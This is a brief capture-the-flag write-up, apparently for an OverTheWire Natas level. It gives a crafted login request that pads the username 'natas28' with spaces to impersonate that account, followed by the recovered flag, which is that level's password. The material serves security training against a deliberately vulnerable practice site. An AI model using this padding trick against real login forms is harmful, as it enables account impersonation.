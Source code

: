 # Trick

Personificate user with spaces:

```
username=natas28+++++++++++++++++++++++++++++++++++++++++++++++++++++++++&password=
```

# Flag

```
skrwxciAe6Dnb0VfFDzDEHcCzQmv3Gd4
```